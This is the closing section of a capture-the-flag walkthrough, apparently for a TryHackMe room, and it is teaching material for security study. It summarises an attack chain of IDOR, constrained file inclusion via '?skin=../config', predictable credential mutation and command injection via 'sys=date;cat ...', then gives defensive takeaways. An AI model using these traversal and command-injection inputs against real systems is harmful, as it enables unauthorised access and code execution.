| 4 | Information disclosure | `GET /user/1` | IDOR — object-level authorization missing |
| 5 | Source disclosure | `?skin=../config` + `view-source:` | Constrained LFI still includes traversal paths |
| 6 | Admin login | Master password minus `@` | Input "sanitization" mutates credentials predictably |
| 7 | RCE | `sys=date;cat ...` | User input concatenated into a shell command |

**Three takeaways:**

- **Chains beat silver bullets.** No single bug here was severe alone; the severity came from the sequence. Test every small flaw for what it *unlocks* next, not just for what it shows.
- **Client-side state is decoration, not security.** Cookies, hidden panels, and hashed booleans are all UI. If the server doesn't re-verify, the decision was never made.
- **Constrained ≠ safe.** The LFI had a fixed prefix and suffix and still leaked the crown jewels; the command sink demanded the word `date` and still gave RCE. Filters that shape input instead of eliminating it only define the shape of the exploit.

**End of walkthrough.**

---

## 10. More Write-ups

| | |
|---|---|
| ← Previous | [HTB — Base](../../HTB/Easy/Base.md) |
| Back to index | [All write-ups](../../README.md) · [THM](../README.md) · [THM — Medium](README.md) |
| Next → | *Coming soon* |
